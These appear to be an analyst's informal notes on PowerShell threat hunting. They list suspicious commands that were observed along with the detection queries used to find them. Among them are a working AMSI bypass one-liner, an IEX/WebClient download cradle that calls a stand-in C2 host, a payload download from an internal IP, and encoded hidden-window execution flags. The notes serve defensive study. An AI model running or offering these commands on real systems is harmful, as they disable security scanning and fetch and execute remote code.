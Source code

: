 # ran this to see policy... then changed it and didn't document it
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted

# IEX with encoded blob. looks bad. was bad.
powershell -Exec Bypass -Enc JAB... (cut off)

# used this to grab a .ps1 script — forgot to check if it's malicious
Invoke-WebRequest -Uri http://10.10.10.5/payload.ps1 -OutFile payload.ps1

# AMSI bypass string seen in a CTF
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)




# legit user ran this and SIEM flagged it
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command Get-Process"



# decoded one line and it ran Invoke-Expression + WebClient... suspicious
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://weirdc2.xyz/script')"

# script block logging was ON but logs got cut off mid-command — why?
PowerShell 5.1 + LogSize setting maybe?

# looked for obfuscation, found 20 lines with "`n" and "`t" and -Join…
Select-String -Path logs.ps1 -Pattern "`n|`t|-Join"

# triggered alert on hidden window + no profile + encoded command = 
powershell -w hidden -nop -enc [long string]

# Word doc spawned PowerShell using macro. didn't catch it at first.
WINWORD.EXE → powershell.exe → whoami

# looped through PowerShell logs for 2 hours, forgot to save query
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104}

# decoded a string and it just said "you've been owned" 
